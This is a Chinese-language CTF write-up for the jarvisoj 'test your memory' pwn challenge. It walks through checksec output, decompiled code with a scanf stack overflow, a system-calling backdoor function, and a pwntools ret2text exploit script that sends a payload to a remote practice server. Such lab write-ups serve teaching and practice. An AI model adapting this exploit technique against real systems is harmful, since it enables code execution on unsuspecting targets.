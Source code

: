 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj test your memory
date: 2022-4-3 09:25:10
permalink: /pages/2e1547494524d1a4
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj test your memory

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_test_your_memory/memory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s2[11]; // [esp+1Dh] [ebp-13h]
  int v6; // [esp+28h] [ebp-8h]
  int i; // [esp+2Ch] [ebp-4h]

  v6 = 10;
  puts("\n\n\n------Test Your Memory!-------\n");
  v3 = time(0);
  srand(v3);
  for ( i = 0; i < v6; ++i )
    s2[i] = alphanum_2626[rand() % 0x3Eu];
  printf("%s", s2);
  mem_test(s2);
  return 0;
}
```

mem_test函数如下

```c
int __cdecl mem_test(char *s2)
{
  int result; // eax
  char s; // [esp+15h] [ebp-13h]

  memset(&s, 0, 0xBu);
  puts("\nwhat???? : ");
  printf("0x%x \n", hint);
  puts("cff flag go go go ...\n");
  printf("> ");
  __isoc99_scanf("%s", &s);
  if ( !strncmp(&s, s2, 4u) )
    result = puts("good job!!\n");
  else
    result = puts("cff flag is failed!!\n");
  return result;
}
```

win_func函数如下

```c
int __cdecl win_func(char *command)
{
  return system(command);
}
```

Gadget如下

```shell
ROPgadget --binary memory --string "cat flag\x00"
Strings information
============================================================
0x080487e0 : cat flag
```



## 思路分析

1. 目前信息：
   
   - `mem_test`函数存在溢出点
   - 存在后门函数`win_func`
   - 存在`cat flag`字符串
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 32位`ret2text`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_test_your_memory/memory'
io = remote('node4.buuoj.cn', 25219)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x13+4
win_func = elf.symbols['win_func']
cat_flag_addr = 0x080487E0
payload = flat(['a'*padding, win_func, cat_flag_addr, cat_flag_addr])
# 这里win_func函数实际上是执行system调用，调用完毕返回的地址不能设置为无效地址，不然缓冲区中的flag会无法接受到
# 随意填写一个有效地址例如cat_flag_addr，在程序崩溃后会将缓冲区内容传过来
io.sendline(payload)
print(io.recv())
```